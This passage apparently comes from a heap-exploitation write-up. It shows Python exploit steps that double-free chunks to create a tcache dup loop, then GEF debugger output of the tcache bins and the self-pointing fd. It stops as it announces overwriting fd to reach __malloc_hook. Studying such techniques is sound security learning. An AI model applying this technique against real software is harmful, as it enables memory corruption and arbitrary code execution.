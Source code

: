 ```py
# heap_list[2] => chunk_5 (0x71)
# this will allocate chunk_5 exactly in the same place as chunk_1
new_heap(0x68, 'f' * 0x67)

# we used tcache_dup attack here which is due to double free
# freeing chunk_1 and chunk_5 put them in the same bin in tcache
# even though they are pointing to the same address
# This will create a loop within the tcache bin
delete_heap(0)
delete_heap(2)
```

Now, doing so, when we see the heap layout:-

```r
gef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=2  ←  Chunk(addr=0x555555757770, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757770, size=0x70, flags=PREV_INUSE)  →  [loop detected]
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x5555557577d0, bk=0x5555557577d0
 →   Chunk(addr=0x5555557577e0, size=0x600, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/10xg 0x555555757770
0x555555757770:	0x0000555555757770	0x0000555555757010  The fd of this chunk is overwritten with its own address
0x555555757780:	0xdadadadadadadada	0xdadadadadadadada
0x555555757790:	0xdadadadadadadada	0xdadadadadadadada
0x5555557577a0:	0xdadadadadadadada	0xdadadadadadadada
```

As shown from the `tcache` bins, we have a `free`'d chunk's `fd` is pointing to it's own address, which commonly refer as `tcache` dup entry. Now, we will overwrite the `fd` of the same chunk with the target chunk, for the target chunk I used the `__malloc_hook` but you can also go with the `__free_hook` way:-
